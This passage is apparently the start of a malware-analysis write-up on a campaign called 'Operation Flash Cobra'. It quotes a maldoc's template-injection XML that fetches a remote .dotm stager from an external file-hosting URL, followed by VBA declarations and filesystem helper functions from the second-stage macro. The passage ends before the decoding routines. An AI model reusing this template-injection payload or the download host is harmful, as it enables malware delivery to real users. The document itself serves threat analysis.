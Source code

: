 ## Operation Flash Cobra
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Threat intelligence](#TI)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [Articles](#Articles)
<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is a maldoc using a template injection for download and execute the next stager.</h6>

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="https://od.lk/d/MzBfMjA1Njc0ODdf/pubmaterial.dotm" TargetMode="External"/>
</Relationships>
```

<h6>The second stager use a document with a macro. The first block define the alias functions for the rest of the script.</h6>

```vb
Private Declare PtrSafe Function CoContentInfo Lib "onenote.db" (ByVal lpDocPath As String, ByVal lpPass As String, ByVal lpUID As String) As Long
Private Declare PtrSafe Function LoadLibraryA Lib "kernel32" (ByVal lpLibFileName As String) As LongPtr
```

<h6>The next three functions give the abilities to create a new folder, check the existence of a file and folder.</h6>

```vb
Function MkDir(szDir)
 On Error Resume Next
 MkDir = CreateObject("Scripting.FileSystemObject").CreateFolder(szDir)
End Function
Function FileExist(szFile)
 On Error Resume Next
 FileExist = CreateObject("Scripting.FileSystemObject").FileExists(szFile)
End Function
Function FolderExist(szFolder)
 On Error Resume Next
 FolderExist = CreateObject("Scripting.FileSystemObject").FolderExists(szFolder)
End Function
```

<h6>The following block of functions allows to decode the stream in base 64, that used on the next declared functions.</h6>
